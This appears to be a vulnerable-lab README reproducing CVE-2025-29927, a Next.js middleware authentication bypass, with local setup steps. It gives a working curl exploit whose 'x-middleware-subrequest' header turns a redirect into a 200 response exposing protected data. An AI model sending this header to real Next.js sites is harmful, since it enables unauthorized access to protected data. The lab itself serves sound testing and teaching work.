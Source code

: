 # Next.js Middleware Authorization Bypass Vulnerability (CVE-2025-29927) 

Next.js is a web application framework based on React. It provides features like server-side rendering, static site generation, routing system, and API routes. When Next.js is configured to use middleware for authentication, attackers can exploit a vulnerability to bypass authentication.

## Starting the Environment

Execute the following command, then visit `http://ip:3000`:

```
docker compose up --build
```

### Manual Setup

Run the following command:

```bash
npm install
```

Start the application:

```bash
npm run build
npm start
```

Visit http://ip:3000

## Reproducing the Vulnerability

Directly accessing the protected API:
```
curl -i http://localhost:3000/api/protected/data
HTTP/1.1 307 Temporary Redirect
location: /unauthorized
Date: Sat, 22 Mar 2025 19:39:36 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Transfer-Encoding: chunked

/unauthorized#
```

Run the following command to reproduce the vulnerability:
```
curl -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://localhost:3000/api/protected/data
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
ETag: "8s59pt2il13l"
Content-Length: 175
Vary: Accept-Encoding
Date: Sat, 22 Mar 2025 19:41:09 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{"message":"Successfully retrieved sensitive data","sensitiveData":"This is some sensitive data that should be protected","userId":12345,"adminAccess":true,"timestamp":"2025-03-22T19:41:09.957Z"}
```
